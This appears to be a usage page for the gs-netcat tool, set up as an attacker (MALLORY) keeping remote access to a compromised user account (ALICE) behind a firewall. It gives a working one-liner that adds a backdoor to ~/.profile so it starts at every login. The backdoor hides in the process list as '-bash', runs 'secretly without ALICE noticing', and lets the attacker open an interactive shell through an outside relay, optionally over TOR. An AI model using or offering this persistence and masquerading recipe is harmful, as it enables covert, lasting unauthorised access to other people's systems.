 # Global Socket User Login Shell (auto-restarting)
**Connect to a firewalled host**

**Problem**  
MALLORY gained access to ALICE but does not have superuser priviledges (root). MALLORY likes to access ALICE remotely. ALICE (and MALLORY) are on two different networks and behind a NAT/Firewall. Neither of them can reach the other.  

**Objective**  
Backdoor ALICE so that MALLORY can access ALICE remotely (without tampering with the firewall, NAT or router settings) and without superuser priviledges (root).

**Solution**  
Start gs-netcat from ALICE's *~/.profile* and to so secretly without ALICE noticing.


On "ALICE" add the following line to the end of *~/.profile*. This will start the gs-netcat backdoor every time that ALICE logs in. The gs-netcat process is hidden as *-bash* and shows up as *-bash* in the process list.
```ShellSession
alice@ALCIE:~$ killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s ExampleKeyXXXXChangeMe -liqD" SHELL=/bin/bash exec -a -bash gs-netcat)
```

Immediately start the backdoor:
```ShellSession
alice@ALICE:~$ source ~/.profile
```

Now log in from "MALLORY" to "ALICE":
```ShellSession
b@MALLORY:~ $ gs-netcat -s ExampleKeyXXXXChangeMe -i
=Secret         : "ExampleKeyXXXXChangeMe"
=Encryption     : SRP-AES-256-CBC-SHA-End2End (Prime: 4096 bits)
alice@ALICE:~$ id
uid=1001(alice) gid=1001(alice)
alice@ALICE:~$
```

There are other ways to start a backdoor. This is an example.

Many more gs-netcat options are available: For example *-T* to connect via TOR. See the manual page of gs-netcat. 

